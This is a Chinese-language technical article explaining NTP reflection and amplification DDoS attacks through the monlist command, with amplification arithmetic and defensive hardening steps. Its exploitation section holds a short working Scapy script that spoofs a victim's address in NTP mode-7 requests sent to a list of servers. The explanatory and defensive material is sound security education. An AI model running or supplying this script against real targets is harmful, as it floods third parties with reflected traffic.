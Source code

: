 # 浅谈基于 NTP 的反射和放大攻击

0x01 一些案例
---------

* * *

最近一段时间 DDoS 攻击事件让基于 NTP 的 DDoS 攻击变得很火热，先看看下面的信息感受下：

> “It was a very large DDoS targeting a CloudFlare customer,” Matthew Prince, CEO of Cloudflare told SecurityWeek. “We're still gathering the log data to get exact numbers but know it was well over 300Gbps and likely over 400Gbps,” Prince said.
> 
> “The method was NTP reflection, which is quickly replacing DNS reflection as the source of the largest attacks,” Prince said.

消息中称 CloudFlare 遭受了高达 400G 流量的 NTP 反射攻击，目前从网上各处的消息来看，众说纷纭，我们先不去考证消息的真伪，仅仅从攻击方法和流量方面来看着实体现出 NTP 反射攻击的威力。

0x02 什么是 NTP
------------

* * *

NTP 是网络时间协议（Network Time Protocol）的简称，干嘛用的呢？就是通过网络协议使计算机之前的时间同步化。

0x03 NTP 反射和放大攻击
----------------

* * *

那什么是 NTP 反射和放大攻击呢？如果听过 DNS 反射和放大攻击的话应该就会对这个比较容易理解了，协议不同，效果一样。

我们先来说说放射和放大攻击：

无论是基于 DNS 还是基于 NTP，其最终都是基于 UDP 协议的。在 UDP 协议中正常情况下客户端发送请求包到服务端，服务端返回响应包到客户端，但是 UDP 协议是面向无连接的，所以客户端发送请求包的源 IP 很容易进行伪造，当把源 IP 修改为受害者的 IP，最终服务端返回的响应包就会返回到受害者的 IP。这就形成了一次反射攻击。

放大攻击呢就是一次小的请求包最终会收到一个或者多个多于请求包许多倍的响应包，这样就达到了四两拨千斤的效果。

那我们接着来看什么是 NTP 的反射和放大攻击，NTP 包含一个 monlist 功能，也被成为 MON_GETLIST，主要用于监控 NTP 服务器，NTP 服务器响应 monlist 后就会返回与 NTP 服务器进行过时间同步的最后 600 个客户端的 IP，响应包按照每 6 个 IP 进行分割，最多有 100 个响应包。

我们可以通过 ntpdc 命令向一个 NTP 服务器发送 monlist 以及结合抓包来看下实际的效果。

> pangzi@pangzi-mac ~$ ntpdc -n -c monlist x.x.x.x | wc -l
> 
> 602

![NTP wireshark](http://drops.javaweb.org/uploads/images/d067a90b330c02cddf9701e94b8e648575c213cc.jpg)

在上面的命令行中我们可以看到一次含有 monlist 的请求收到 602 行数据，除去头两行是无效数据外，正好是 600 个客户端 IP 列表，并且从上面图中的 wireshark 中我们也看到显示有 101 个 NTP 协议的包，除去一个请求包，正好是 100 个响应包。

从上图中我们可以看到请求包的大小为 234 字节，每个响应包为 482 字节，如果单纯按照这个数据我们可以计算出放大的倍数是：482*100/234 = 206 倍。其实如果通过编写攻击脚本，请求包会更小，这个倍数值会更大，这样算起来是不是蛮屌的。

0x04 如何利用
---------

* * *

我们通过 scapy 实现一个简单的攻击脚本，代码如下：

```
#!/usr/bin/env python
# author: pangzi.me@gmail.com

import sys
from scapy.all import *

def attack(target, ntp_server):
    send(IP(dst=ntp_server, src=target)/(UDP(sport=52816)/NTP(version=2, mode=7, stratum=0, poll=3, precision=42)))

if __name__ == "__main__":
    if len(sys.argv) != 3:
        sys.exit(1)

    target = sys.argv[1]
    ntp_server_file = sys.argv[2]
    for ntp_server in open(ntp_server_file, "r"):
        ntp_server = ntp_server.strip()
        if ntp_server != "":
            attack(target, ntp_server)

```

0x05 如何防御
---------

* * *

我们可以分为两种情况进行防御

#### 加固 NTP 服务

```
1. 把 NTP 服务器升级到 4.2.7p26
2. 关闭现在 NTP 服务的 monlist 功能，在ntp.conf配置文件中增加`disable monitor`选项
3. 在网络出口封禁 UDP 123 端口

```

#### 防御 NTP 反射和放大攻击

```
1. 由于这种攻击的特征比较明显，所以可以通过网络层或者借助运营商实施 ACL 来防御
2. 使用防 DDoS 设备进行清洗

```

不过我觉得如果流量真的够大，400G？800G？或者更大，又有谁能够防得住呢？